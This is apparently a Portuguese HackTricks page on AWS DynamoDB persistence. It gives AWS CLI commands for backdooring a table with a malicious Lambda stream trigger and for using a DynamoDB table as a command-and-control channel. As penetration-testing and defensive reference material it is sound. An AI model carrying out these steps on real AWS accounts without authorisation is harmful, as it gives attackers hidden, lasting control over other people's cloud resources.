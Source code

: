 # AWS - Persistência do DynamoDB

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

### DynamoDB

Para mais informações acesse:

{% content-ref url="../aws-services/aws-databases/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-databases/aws-dynamodb-enum.md)
{% endcontent-ref %}

### Gatilhos do DynamoDB com Backdoor do Lambda

Usando gatilhos do DynamoDB, um invasor pode criar um **backdoor furtivo** associando uma função Lambda maliciosa a uma tabela. A função Lambda pode ser acionada quando um item é adicionado, modificado ou excluído, permitindo que o invasor execute código arbitrário dentro da conta AWS.

{% code overflow="wrap" %}
```bash
# Crie uma função Lambda maliciosa
aws lambda create-function \
    --function-name MaliciousFunction \
    --runtime nodejs14.x \
    --role <LAMBDA_ROLE_ARN> \
    --handler index.handler \
    --zip-file fileb://malicious_function.zip \
    --region <region>

# Associe a função Lambda com a tabela DynamoDB como um gatilho
aws dynamodbstreams describe-stream \
    --table-name TargetTable \
    --region <region>

# Observe o "StreamArn" da saída
aws lambda create-event-source-mapping \
    --function-name MaliciousFunction \
    --event-source <STREAM_ARN> \
    --region <region>
```
{% endcode %}

Para manter a persistência, o invasor pode criar ou modificar itens na tabela DynamoDB, o que acionará a função Lambda maliciosa. Isso permite que o invasor execute código dentro da conta AWS sem interação direta com a função Lambda.

### DynamoDB como Canal C2

Um invasor pode usar uma tabela DynamoDB como um **canal de comando e controle (C2)** criando itens contendo comandos e usando instâncias comprometidas ou funções Lambda para buscar e executar esses comandos.

```bash
# Crie uma tabela DynamoDB para C2
aws dynamodb create-table \
    --table-name C2Table \
    --attribute-definitions AttributeName=CommandId,AttributeType=S \
    --key-schema AttributeName=CommandId,KeyType=HASH \
    --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
    --region <region>

# Insira um comando na tabela
aws dynamodb put-item \
    --table-name C2Table \
    --item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
    --region <region>
```

As instâncias comprometidas ou funções Lambda podem verificar periodicamente a tabela C2 em busca de novos comandos, executá-los e, opcionalmente, relatar os resultados de volta à tabela. Isso permite que o invasor mantenha a persistência e o controle sobre os recursos comprometidos.

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>